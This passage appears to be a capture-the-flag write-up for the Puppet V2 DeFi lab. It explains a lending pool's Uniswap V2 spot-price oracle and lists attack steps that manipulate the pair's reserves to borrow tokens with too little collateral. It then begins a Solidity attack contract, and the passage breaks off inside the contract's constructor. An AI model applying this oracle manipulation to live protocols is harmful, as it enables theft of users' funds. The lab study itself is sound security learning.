 ```solidity
function _getOracleQuote(uint256 amount) private view returns (uint256) {
    (uint256 reservesWETH, uint256 reservesToken) =
        UniswapV2Library.getReserves({factory: _uniswapFactory, tokenA: address(_weth), tokenB: address(_token)});

    return UniswapV2Library.quote({amountA: amount * 10 ** 18, reserveA: reservesToken, reserveB: reservesWETH});
}
```

The `quote()` function from Uniswap V2 calculates the amount of WETH required based on the reserves:

```solidity
function quote(uint256 amountA, uint256 reserveA, uint256 reserveB) internal pure returns (uint256 amountB) {
    require(amountA > 0, "UniswapV2Library: INSUFFICIENT_AMOUNT");
    require(reserveA > 0 && reserveB > 0, "UniswapV2Library: INSUFFICIENT_LIQUIDITY");
    amountB = amountA * reserveB / reserveA;
}
```

### Attack steps:

1. Swap out most of the WETH for DVT tokens in the Uniswap V2 pair to significantly lower the DVT token price.
2. Borrow the maximum amount of DVT tokens from the lending pool, since the collateral requirement is now undervalued.
3. Transfer the rescued token to the `recovery` address.

## PoC test case

### Attack Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {Ownable} from "solady/auth/Ownable.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IPuppetPoolV2 {
    function borrow(uint256 borrowAmount) external;
}

interface IUniswapV2Router01 {
    function swapExactTokensForTokens(
        uint256 amountIn,
        uint256 amountOutMin,
        address[] calldata path,
        address to,
        uint256 deadline
    ) external returns (uint256[] memory amounts);
}

contract AttackPuppetV2 is Ownable {
    address private immutable uniswapPair;
    address private immutable lendingPool;
    address private immutable router;
    address private immutable token;
    address private immutable weth;
    address private immutable recovery;

    constructor(
```